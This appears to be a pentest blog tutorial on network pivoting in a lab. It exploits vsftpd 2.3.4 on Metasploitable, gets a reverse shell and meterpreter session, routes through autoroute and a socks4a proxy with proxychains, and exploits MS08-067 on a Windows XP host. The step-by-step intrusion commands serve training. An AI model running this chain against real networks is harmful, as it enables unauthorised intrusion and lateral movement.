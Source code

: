 ```yaml
---
title:  "Pivoting - part 2. Proxychains. Practical example."
date:   2021-11-08 10:00:00 +0600
header:
  teaser: "/assets/images/20/2021-11-08_13-25.png"
categories: 
  - pentest
tags:
  - pivoting
  - red team
  - networking
  - pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

This article I will consider scenarios for attacking protected segments of the corporate network using pivoting techniques via `metasploit` framework and `proxychains`.      

### Scenario

Let's consider at this network topology:       

![pivoting 1](/assets/images/20/pivot-topology.png){:class="img-responsive"}         

> for simplicity, I chose Metasploitable as machine A and vulnerable windows xp sp3 as machine B        

### enum and compromise machine A

Often in a real pentest, you do not know the exact address of the vulnerable machines in network, so first I did hosts discovery:
```bash
nmap -sn -T4 10.10.2.0/24 -oG - | awk '/Up$/{print $2}'
```

![pivoting 1](/assets/images/20/2021-11-08_12-04.png){:class="img-responsive"}         

As you can see, our target is `10.10.2.15`.          

Then scan:
```bash
nmap -Pn -sV 10.10.2.15
```

![pivoting 1](/assets/images/20/2021-11-08_12-18.png){:class="img-responsive"}         


We found a vulnerable `21` port. But in this case we will pwn machine `A` via Metasploit Framework. The Metasploit Framework from Rapid7 is one of the best-known frameworks in the area of vulnerability analysis, and is used by many Red Teams and penetration testers worldwide.     

Firstly, run:
```bash
msfconsole
```

![pivoting 1](/assets/images/20/2021-11-08_12-20.png){:class="img-responsive"}         

In my case I am using `metasploit v5.0.87-dev` from my kali VM.    

Exploitation:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.2.15
set RPORT 21
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-21.png){:class="img-responsive"}         

As you can see, we got a reverse shell session.        

enum network intefaces:
```bash
ifconfig
```

![pivoting 1](/assets/images/20/2021-11-08_12-22.png){:class="img-responsive"}         

And we discovered another network `10.9.1.22/24`.          

update our shell to meterpreter:
```bash
use post/multi/manage/shell_to_meterpreter
set LPORT 4441
set LHOST 10.10.2.6
set SESSION 1
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-24.png){:class="img-responsive"}         


### access hidden network via proxy

Further, according to the scenario, the attacker wants to gain access to the subnet behind the `10.9.1.0/24` interface. To do this, he needs to use a compromised host as a pivot.   

Check our meterpreter session:        
```bash
sessions -l
```

![pivoting 1](/assets/images/20/2021-11-08_12-24_1.png){:class="img-responsive"}         


The following command can be used to create a tunnel through an existing meterpreter session:    
```bash
sessions -i 2
run autoroute -s 10.9.1.0/24
run autoroute -p
```

![pivoting 1](/assets/images/20/2021-11-08_12-26.png){:class="img-responsive"}         

We have added our additional route and this route will work during the meterpreter session is not closed.    

In order for our tools such as nmap to work on this network, we must configure a `socks4a` proxy:     
```bash
use auxiliary/server/socks4a
set SRVHOST 10.10.2.6
set SRVPORT 8090
```

![pivoting 1](/assets/images/20/2021-11-08_12-28.png){:class="img-responsive"}         


Check:        
```bash
netstat -antp
```

![pivoting 1](/assets/images/20/2021-11-08_12-29.png){:class="img-responsive"}         

As you can see the proxy has been created immediately and you can see our current meterpreter session `10.10.2.6:4441`.     

Now we configure `proxychains`. Using the `proxychains` utility, any TCP connection can be sent to the destination via TOR, SOCKS4, SOCKS5, HTTP/HTTPS proxy. Let's make a small update in the settings file `/etc/proxychains.conf`:    
```bash
nvim /etc/proxychains.conf
```

![pivoting 1](/assets/images/20/2021-11-08_12-31.png){:class="img-responsive"}         


Then, scan via `proxychains` and `nmap`:         
```bash
proxychains4 nmap -sT -p21,22,135,139,445 10.9.1.0/24 2>&1 | grep 'OK'
```

![pivoting 1](/assets/images/20/2021-11-08_13-10.png){:class="img-responsive"}         

### exploit and access machine B

scan machine `B`:
```bash
proxychains4 nmap -Pn -sT -sV 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-12.png){:class="img-responsive"}         

so, machine OS is `Microsoft Windows XP`

check port `445` for vulnerability:
```bash
proxychains4 nmap -Pn -sT -sV --script=*smb-vuln* 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-09.png){:class="img-responsive"}         

is vulnerable to `ms08-067`.

Run in `metasploit` again:          
```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/shell/bind_tcp
set RHOSTS 10.9.1.12
set RHOST 10.9.1.12
set LPORT 4447
run
```

![pivoting 1](/assets/images/20/2021-11-08_13-23.png){:class="img-responsive"}         

Here we used the bind shell, so it's not necessary to create the reverse route.        

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

**So, the machine B has been pwned :)**

### conclusion

the attacker discovered secret network by following the steps below.

- attacker got an access to the `machine A (10.10.2.15)` which was on same network with attacker via exploitation `vsftpd 2.3.4` on port `21`          
- then he realise that `machine A` has 2 network interfaces         
- access hidden network via `autoroute` in meterpreter session to `machine A`       
- create `socks4a` proxy         
- then attacker scan ports on new discovered network `10.9.1.0/24`         
- scan ports on `10.9.1.12`           
- `machine B` have vulnerable `smb` on port `445`                  
- successfully exploit `ms08-067` on `machine B`                   
- final       

[pivoting via metasploit](https://www.offensive-security.com/metasploit-unleashed/pivoting/)          
[metasploit](https://www.metasploit.com/)            
[proxychains](https://github.com/haad/proxychains)       

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*             